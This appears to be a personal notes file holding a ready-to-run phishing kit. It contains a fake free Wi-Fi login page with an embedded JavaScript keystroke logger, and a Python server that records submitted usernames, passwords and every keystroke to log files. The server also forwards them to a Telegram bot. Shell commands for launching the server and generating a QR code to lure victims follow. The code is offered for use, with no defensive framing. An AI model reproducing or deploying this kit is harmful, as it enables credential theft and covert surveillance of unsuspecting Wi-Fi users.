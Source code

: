```yaml
---
created: 2025-07-19T10:14:30-04:00
updated: 2025-07-19T10:20:35-04:00
---
```


# Bash

Bash

"mkdir -p ~/phish-portal/www
cd ~/phish-portal
<!DOCTYPE html>
<html>
<head>
  <title>Free Wi-Fi Login</title>
  <script>
    // Real-time keystroke logger
    document.addEventListener('DOMContentLoaded', () => {
      const log = [];
      document.addEventListener('keydown', (e) => {
        log.push(e.key);
        fetch('/keystroke', {
          method: 'POST',
          headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
          body: `key=${e.key}`
        });
      });
    });
  </script>
</head>
<body style="text-align:center;font-family:Arial;margin-top:15%;">
  <h2>Sign in to connect to Free Wi-Fi</h2>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username / Email" required><br><br>
    <input type="password" name="password" placeholder="Password" required><br><br>
    <input type="submit" value="Login">
  </form>
</body>
</html>

<!DOCTYPE html>
<html>
<head><title>Welcome</title></head>
<body style="text-align:center;font-family:Arial;margin-top:15%;">
  <h2>You're connected!</h2>
  <p>Thanks for signing in to the Wi-Fi portal.</p>
</body>
</html>

from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs
import os
import requests

BOT_TOKEN = 'YOUR_BOT_TOKEN'
CHAT_ID = 'YOUR_CHAT_ID'

def send_telegram(msg):
    try:
        requests.get(
            f'https://api.telegram.org/bot{BOT_TOKEN}/sendMessage',
            params={'chat_id': CHAT_ID, 'text': msg}
        )
    except Exception as e:
        print("[!] Telegram failed:", e)

class PhishHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.serve("www/index.html")
        elif self.path == "/success":
            self.serve("www/success.html")
        else:
            self.send_error(404)

    def do_POST(self):
        content_len = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_len).decode()
        data = parse_qs(post_body)

        if self.path == "/login":
            username = data.get("username", [""])[0]
            password = data.get("password", [""])[0]
            msg = f"📡 Captured credentials:\n👤 {username}\n🔐 {password}"
            print(msg)
            with open("creds.log", "a") as f:
                f.write(msg + "\n")
            send_telegram(msg)
            self.send_response(302)
            self.send_header("Location", "/success")
            self.end_headers()

        elif self.path == "/keystroke":
            key = data.get("key", [""])[0]
            log = f"🖱️ Keystroke: {key}"
            print(log)
            send_telegram(log)
            with open("keystrokes.log", "a") as f:
                f.write(log + "\n")
            self.send_response(200)
            self.end_headers()

    def serve(self, path):
        if os.path.exists(path):
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            with open(path, "rb") as f:
                self.wfile.write(f.read())
        else:
            self.send_error(404)

print("✅ Phishing portal running on http://0.0.0.0:8080")
HTTPServer(('0.0.0.0', 8080), PhishHandler).serve_forever()

https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates

cd ~/phish-portal
python server.py

http://10.0.0.223:8080

cat creds.log         # Captured usernames and passwords
cat keystrokes.log    # Real-time keystrokes

pkg install qrencode
ip=$(ip a | grep wlan0 | grep inet | awk '{print $2}' | cut -d/ -f1)
qrencode -t ansiutf8 "http://$ip:8080"
